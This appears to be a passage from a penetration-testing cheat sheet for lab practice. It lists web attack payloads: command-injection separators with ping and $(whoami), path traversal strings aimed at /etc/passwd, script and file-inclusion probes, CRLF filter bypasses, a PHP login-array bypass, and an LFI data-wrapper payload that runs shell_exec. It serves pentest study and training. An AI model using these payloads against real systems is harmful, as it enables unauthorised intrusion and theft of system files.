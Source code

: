             | ping -i 30 127.0.0.1 |
            | ping -n 30 127.0.0.1 |
            & ping -i 30 127.0.0.1 &
            & ping -n 30 127.0.0.1 &
            ; ping 127.0.0.1 ;
            %0a ping -i 30 127.0.0.1 %0a
            ` ping 127.0.0.1 `
            Try sub-commands if you control input! - ex. $(whoami)
        Path Traversal:
            ../../../../../../../../../../etc/passwd
            ../../../../../../../../../../boot.ini
            ..\..\..\..\..\..\..\..\..\..\etc\passwd
            ..\..\..\..\..\..\..\..\..\..\boot.ini
        XXE:
            See exploitation section
        Script Injection:
            ;echo 11111
            echo 11111
            response.write 11111
            :response.write 11111
            console.log(11111)
            system('ping%20127.0.0.1')
        File Inclusion:
            http://<your server>/
            http://<nonexistent IP>/
            http://127.0.0.1/
            http://<internal IP>
        HTTP Headers:
            Try injecting %0d, %0a in a field - response on next line?
            Filter bypass: foo%00%0d%0abar, foo%250d%250abar, foo%%0d0d%%0a0abar

## Language-Specific Techniques:

    PHP: Type Juggling
    NodeJS: Prototype Pollution

## Admin Consoles:  

	Look up default credentials
	See password attacks page
		brute force, try scraping from website
		Creating brute-force password lists: Crunch, Cewl (website-crawler)
		Scraping emails from website:  cewl -n -e --email_file mailid.txt http://sneakycorp.htb
	PHP login bypass in burpsuite:  username=admin&password[]=

## URL Techniques:  

    LFI/Directory Traversal:  php 'include' statement means code is executed            
        ex. ?page=/../../../../../etc/passwd OR ?file=c:\windows\system32\drivers\etc\hosts 
        See LFI Interesting Files
		Windows:  https://notchxor.github.io/oscp-notes/4-win-privesc/15-LFI-FILES/
	Using curl - might need --path-as-is
	Other Notable Targets:
		/proc/self/cmdline
		/proc/self/environ
		/proc/self/cwd/...
        LFI Cheat Sheat/reverse shell methods:  https://highon.coffee/blog/lfi-cheat-sheet/  
        PHP Wrapper Method:
		Cheat sheet:  https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers-and-protocols
        	ex. http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
	Filter Bypass Examples:  